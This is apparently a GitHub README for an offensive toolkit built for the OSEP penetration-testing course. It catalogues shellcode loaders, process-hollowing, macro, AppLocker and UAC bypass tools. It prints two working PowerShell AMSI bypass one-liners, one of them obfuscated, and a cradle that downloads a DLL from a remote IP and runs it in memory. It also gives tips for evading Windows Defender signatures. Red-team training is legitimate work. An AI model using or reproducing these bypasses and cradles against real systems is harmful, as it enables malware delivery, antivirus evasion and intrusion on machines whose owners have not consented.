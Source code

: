 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits. Basically what I did was just rewriting the documentation for the tools, and fix some small things here and there. I kept everything from OSEP-Tools, but only the projects that I deemed useful from OSEP-Code-Snippets.

Below is a small table of contents, some notes, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_PEs | Tools that aid in loading EXEs (PEs) into memory, *from disk*, and executing | `nonDN2J.hta` |
| Loaders_Shellcode | Tools that aid in loading executable shellcode into memory from a remote server and executing | `clhollow`, `clinject`, `D_invoke`, `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, dumping LSASS memory, and RCE leveraging win32 API | `AV_Detection`, `Fileless_Lateral_Movement`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |


## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

## To DOs

- Integrate Injection runner with baseline runner so that injection is performed if x64 word is detected.
- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Detection` scripts
    - Add in Discord scripts
- Patch the `powerhollow.py`, `powerinject.py` AMSI context bypasses to not fail when there isn't Amsi on the box
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
- Compile all projects to single directory for ease of access
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Changelog
- 11/26/2023 - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process.

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
